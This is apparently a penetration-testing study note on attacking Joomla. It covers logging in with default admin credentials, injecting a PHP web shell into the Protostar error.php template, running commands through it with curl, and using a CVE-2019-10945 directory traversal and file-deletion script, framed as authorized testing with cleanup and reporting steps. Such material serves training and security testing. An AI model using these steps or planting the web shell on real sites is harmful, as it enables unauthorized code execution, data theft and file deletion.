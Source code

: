 ## Joomla – Attacking
### Objective

- Achieve Remote Code Execution via:    
    - Admin Panel access (template edit)
    - Core vulnerability (CVE-2019-10945)        
- Perform post-exploitation (reverse shell, cleanup, LPE)
### 1. Gaining Access via Admin Panel
#### Credentials (from previous enum):

```
Username: admin
Password: admin
```
#### Login Portal:

```http
http://<target>/administrator
```
#### Fix UI Error (if present):

- If control panel breaks with:  
    `Call to a member function format() on null`  
    → Disable `Quick Icon - PHP Version Check` plugin at:

```http
   /administrator/index.php?option=com_plugins
```
### 2. Template Injection for RCE

#### Navigation Steps:

- Go to:    

```
Configuration → Templates
```

- Choose template: Protostar    
- Select file: error.php
- Inject:

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```    
#### Save and Execute:

```bash
curl -s http://<target>/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
#### Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### Post-Exploitation:

- Spawn reverse shell    
- Enumerate internal network / escalate privileges
- Cleanup: remove shell code and log filename, hash, path in report
### 3. CVE-2019-10945 – Directory Traversal + File Deletion
#### Target Version:

- Joomla 1.5.0 → 3.9.4    
- Your version: 3.9.4
#### Exploit Capability:

- List files in arbitrary directories    
- Delete files (optional/dangerous)
#### Usage:

```bash
python2.7 joomla_dir_trav.py \
--url "http://<target>/administrator/" \
--username admin \
--password admin \
--dir /
```
#### Output Example:

```
administrator
bin
cache
components
configuration.php
index.php
robots.txt
...
```
#### Notes:

- Authenticated RCE is already easier if backend is exposed    
- Use this only if `/administrator/` is blocked externally
- Can be used to locate config files, credentials, or pivot paths
### 4. Cleanup & Reporting

ALWAYS log:

- Shell filename, file hash, full path
- Time of access/modification
- Accounts used (e.g., `admin`)
- Tools used (e.g., `joomla_dir_trav.py`)
- Any deleted/modified file paths    
### Summary of Exploitation Paths

| Technique             | Description                                       | Notes                              |
| --------------------- | ------------------------------------------------- | ---------------------------------- |
| Admin Panel Injection | Modify error.php with `system($_GET[...])`        | Reliable                           |
| CVE-2019-10945        | Authenticated Directory Traversal / File Deletion | Useful for info access or sabotage |
| Reverse Shell         | Via template-based RCE                            | Enables internal recon             |
| Cleanup               | Remove shells, log artifacts                      | Required for responsible testing   |
# Tags
> #Exploitation #Application-Exploitation #Joomla 